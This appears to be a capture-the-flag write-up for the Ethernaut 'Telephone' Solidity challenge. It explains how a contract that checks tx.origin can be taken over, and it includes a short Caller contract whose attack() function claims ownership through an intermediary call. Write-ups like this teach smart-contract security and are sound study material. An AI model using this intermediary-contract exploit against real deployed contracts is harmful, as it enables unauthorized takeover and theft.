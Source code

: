 # Telephone Ethernaut

## Goals

=> Claim ownership of the contract

- Here we just need to make a contract which calls our Telephone contracts `changeOwner(msg.sender)` and now anyone who calls attack through our Caller contract can claim ownership since the if condition gets passed and tx.origin is the caller of our Caller contract and the Caller contract is the msg.sender

```solidity
contract Caller {
    Telephone private telephone;

    constructor(address _telephone) {
        telephone = Telephone(_telephone);
    }

    function attack() public {
        telephone.changeOwner(msg.sender);
    }
}
```
